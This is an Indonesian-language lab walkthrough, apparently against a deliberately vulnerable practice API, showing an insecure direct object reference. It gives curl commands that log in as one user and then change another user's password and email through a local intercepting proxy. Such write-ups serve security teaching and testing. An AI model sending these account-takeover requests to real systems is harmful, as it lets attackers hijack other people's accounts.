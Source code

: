 # Unauthorized Password Change
Access Control menerapkan kebijakan sedemikian rupa sehingga pengguna tidak dapat bertindak di luar izin yang dimaksudkan. Kegagalan otorisasi biasanya menyebabkan pengungkapan informasi yang tidak sah, modifikasi, penghapusan data atau pelaksanaan fungsi bisnis lain di luar batas pengguna. Misalnya adalah mengizinkan melihat atau mengedit akun orang lain, dengan memberikan pengenal uniknya (insecure direct object references)

- Login terlebih dahulu untuk mengakses endpoint `/users/v1/{username}/password`
```sh
curl http://IP_Server:5000/users/v1/login -d '{"username":"test","password":"test"}' -H 'Content-Type: application/json' --proxy http://127.0.0.1:8080
```

- Setelah kita login sebagai user `test` sekarang kita coba mengubah password user `name1` melalui endpoint `/users/v1/{username}/password`
```sh
curl -X PUT http://IP_Server:5000/users/v1/name1/password -d '{"password":"testing"}' -H 'Authorization: Bearer token' -H 'Content-Type: application/json' -H "Accept: application/json" --proxy http://127.0.0.1:8080 -v
```

- Disini kita berhasil mengubah password user `name1` meskipun kita login sebagai user `test`. Di sisi lain kita juga bisa mengubah email user `name1` melalui endpoint `/users/v1/{username}/email`
```sh
curl -X PUT http://IP_Server:5000/users/v1/name1/email -d '{"email":"testing@mail.com"}' -H 'Authorization: Bearer token' -H 'Content-Type: application/json' -H "Accept: application/json" --proxy http://127.0.0.1:8080 -v
```

